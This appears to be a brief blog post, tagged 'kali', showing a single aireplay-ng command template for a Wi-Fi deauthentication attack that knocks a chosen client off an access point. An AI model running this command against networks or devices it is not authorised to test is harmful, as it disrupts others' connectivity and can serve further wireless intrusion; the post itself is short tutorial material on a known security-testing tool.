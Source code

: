```yaml
---
layout: post
title:  "Deauthentication attack"
categories: kali
date:   2020-04-26 20:00:00 +0700
permalink: deauthentication-attack-with-aireplay/
---
```

Command to deauth a target from a hotspot

```
$ aireplay-ng --deauth <how many times you want the signal to be sent> -a <mac address of the router / bssid> -c <mac address of the client that you want to deauth> <your wireless interface name>
```
